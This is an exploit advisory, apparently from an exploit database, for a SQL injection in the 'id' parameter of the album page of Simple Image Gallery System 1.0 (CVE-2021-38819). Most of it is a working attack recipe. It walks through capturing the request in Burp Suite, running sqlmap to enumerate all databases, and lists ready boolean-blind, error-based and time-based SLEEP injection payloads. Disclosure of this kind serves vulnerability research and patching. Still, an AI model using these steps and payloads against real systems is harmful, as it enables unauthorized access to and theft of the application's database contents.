 # Exploit Title: Simple Image Gallery System 1.0 - "id" SQL Injection
# Google Dork: N/A
# Date: 2020-08-12
# Exploit Author: M4sk0ff
# Vendor Homepage: https://www.sourcecodester.com/php/14903/simple-image-gallery-web-app-using-php-free-source-code.html
# Software Link: https://www.sourcecodester.com/download-code?nid=14903&title=Simple+Image+Gallery+Web+App+using+PHP+Free+Source+Code
# Version: Version 1.0
# Category: Web Application
# Tested on: Kali Linux
# CVE : CVE-2021-38819
Description:

Simple Image Gallery System 1.0 application is vulnerable to
SQL injection via the "id" parameter on the album page.

POC:

Step 1. Login to the application with any verified user credentials

Step 2. Click on Albums page and select an albums if created or create by clicking on "Add New" on the top right and select the album. 

Step 3. Click on an image and capture the request in burpsuite.
Now copy the request and save it as test.req .

Step 4. Run the sqlmap command "sqlmap -r test.req --dbs

Step 5. This will inject successfully and you will have an information
disclosure of all databases contents.

---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=3' AND 7561=7561 AND 'SzOW'='SzOW

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=3' OR (SELECT 9448 FROM(SELECT COUNT(*),CONCAT(0x7178707071,(SELECT (ELT(9448=9448,1))),0x71787a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'SXqA'='SXqA

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=3' AND (SELECT 1250 FROM (SELECT(SLEEP(5)))aNMX) AND 'qkau'='qkau
---
